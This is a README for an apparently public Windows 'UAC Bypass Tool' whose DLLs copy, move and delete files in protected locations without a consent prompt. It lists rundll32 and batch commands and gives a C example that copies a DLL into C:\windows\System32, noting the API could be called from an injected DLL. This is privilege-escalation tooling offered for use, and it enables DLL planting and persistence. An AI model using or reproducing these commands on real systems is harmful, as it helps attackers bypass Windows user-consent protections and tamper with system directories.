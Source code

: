 
# UAC Bypass Tool
 
### What's different? 
 
This tool doesn't use dll injection and can be used from the command-line. On Success the program exits with exit-code zero, non-zero when failed. Note: Use quoted strings for the file names when using the tool from the command-line.
	
### Command-line Usage:

	rundll32.exe uaccpy32.dll,Copy "source" "target" [/AllowWarning]
	rundll32.exe uaccpy32.dll,Move "source" "target" [/AllowWarning]
	rundll32.exe uaccpy32.dll,Delete "target" [/AllowWarning]
	
	rundll32.exe uaccpy64.dll,Copy "source" "target" [/AllowWarning]
	rundll32.exe uaccpy64.dll,Move "source" "target" [/AllowWarning]
	rundll32.exe uaccpy64.dll,Delete "target" [/AllowWarning]
	
	uacbp.bat Copy "source" "target" [/AllowWarning]
	uacbp.bat Move "source" "target" [/AllowWarning]
	uacbp.bat Delete "target" [/AllowWarning]

   
API Usage, not the purpose of this dll, the functions are just available. 
Using from a normal application will result in user consent being asked,
could be used to call from an injected dll. 
(But that's not the purpose of this tool)

	#include "uaccpyapi.h"

	#pragma comment(lib, "uaccpy32.lib")
	// OR #pragma comment(lib, "uaccpy64.lib")

	int _tmain(int argc, _TCHAR* argv[])
	{
		BOOL bInit = FALSE;
		BOOL bResult;
		
		if (NeedsUserConsent())
		{
			_tprintf(_T("There will be asked for user consent anyway when called from another application.\n"));
			//return -1;
		}

		if (!(bInit = SUCCEEDED(CoInitializeEx(NULL, COINIT_APARTMENTTHREADED | COINIT_DISABLE_OLE1DDE))))
		{
			_tprintf(_T("CoInitializeEx failed.\n"));
			return -1;
		}

		UacOperation(_T("C:\\Users\\Username\\Desktop\\source.dll"), _T("C:\\windows\\System32"), _T("target.dll"), UACOP_COPY);

		CoUninitialize();

		return 0;
	}

